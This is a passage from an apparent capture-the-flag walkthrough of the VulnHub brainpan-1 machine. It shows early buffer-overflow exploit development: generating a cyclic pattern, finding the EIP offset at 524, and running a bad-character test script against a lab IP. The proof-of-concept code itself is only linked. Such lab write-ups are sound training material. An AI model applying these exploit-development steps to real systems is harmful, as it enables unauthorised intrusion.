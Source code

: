 ### Control EIP

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/vulnhub/brainpan-1)

Create pattern, add it to `buffer` payload and sent.

``` txt
msf-pattern_create -l 1000
```

``` txt
┌──(Hades㉿192.168.11.140)-[0.5:20.3]~/walkthrough/vulnhub/brainpan-1
└─$ python eip-finder.py 192.168.11.135
```

Client Machine

![](images/9.png)

Identify the offset

``` bash
msf-pattern_offset -q 35724134
[*] Exact match at offset 524
```

### Bad Characters

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/vulnhub/brainpan-1)

``` txt
┌──(Hades㉿192.168.11.140)-[0.6:20.3]~/walkthrough/vulnhub/brainpan-1
└─$ python badchars.py 192.168.11.135
```

Client Machine

![](images/10.png)
![](images/11.png)